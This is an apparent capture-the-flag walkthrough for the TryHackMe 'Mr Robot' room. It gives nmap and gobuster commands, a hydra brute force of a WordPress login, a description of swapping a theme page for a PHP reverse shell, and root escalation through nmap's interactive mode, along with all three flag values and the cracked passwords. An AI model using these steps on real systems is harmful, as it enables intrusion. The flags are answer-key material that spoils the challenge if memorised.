 ###### Based on the Mr. Robot show, can you root this box?
Room: https://tryhackme.com/room/mrrobot
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xxx.xxx  
```
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 63
80/tcp  open   http     syn-ack ttl 63 Apache httpd
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd
```

**gobuster dir** http://xx.xx.xxx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 
```
/images               (Status: 301) [Size: 236] [--> http://xx.xx.xxx.xxx/images/]
/blog                 (Status: 301) [Size: 234] [--> http://xx.xx.xxx.xxx/blog/]  
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://xx.xx.xxx.xxx/wp-login.php]
/rss                  (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]       
/video                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/video/]    
/0                    (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]       
/wp-content           (Status: 301) [Size: 240] [--> http://xx.xx.xxx.xxx/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/admin/]     
/atom                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/atom/]   
/image                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/image/]       
/audio                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/audio/]     
/intro                (Status: 200) [Size: 516314]                                    
/css                  (Status: 301) [Size: 233] [--> http://xx.xx.xxx.xxx/css/]       
/wp-login             (Status: 200) [Size: 2613]                                      
/rss2                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]        
/license              (Status: 200) [Size: 309]                                       
/wp-includes          (Status: 301) [Size: 241] [--> http://xx.xx.xxx.xxx/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://xx.xx.xxx.xxx/js/]         
/Image                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/Image/]        
/rdf                  (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/rdf/]     
/page1                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/]              
/readme               (Status: 200) [Size: 64]                                         
/robots               (Status: 200) [Size: 41]                        

```

However, most of these are forbidden to access.  

* xx.xx.xxx.xxx/wp-login 
* xx.xx.xxx.xxx/robots.txt

Are the directories that matter to us.  

At **robots.txt** we can find a password list called **fsocity.dic** we can download using wget http://xx.xx.xxx.xxx//fsocity.dic  
**Note**: It's _fsocity_ and NOT _fsociety_.  

**The first flag is at xx.xx.xxx.xxx/key-1-of-3.txt and is 073403c8a58a1f80d943455fb30724b9** **[1]**.  

After some more looking around, I decided that we have enough to start bruteforcing the Wordpress Login since I couldn't find anything else useful enough.  
**hydra** -l Elliot -P fsocity.dic xx.xx.xxx.xxx http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30

The password happens to be **ER28-0652**.

Once we're logged in Elliot's account, we can go and change one of the .php's pages source code with a PHP reverse shell.  
I edited the 404.php page of twentyfifteen's theme and replaced the source code with a PHP reverse shell.  

I got a reverse shell under the **daemon** "user".  
However, it was easy to escalate privileges since in /home/robot was a raw MD5 hash that I could crack.  
> abcdefghijklmnopqrstuvwxyz

After we're under **robot** user, we can read the **flag-2-of-3.txt** file.  

**Second flag is at /home/robot/key-2-of-3.txt and is 822c73956184f694993bede3eb39f959** **[2]**.  

To escalate privileges, I first took a look at what I can execute by running
**find** / perm +6000 2>/dev/null | grep "/bin/"

I used the **nmap** located at /usr/local/bin/nmap to escalate my privileges to root.
**nmap --interactive**
nmap> **!sh**

```
# whoami
whoami
root
```

**The third and final flag is at /root/key-3-of-3.txt and is 04787ddef27c3dee1ee161b21670b4e4** **[3]**. 
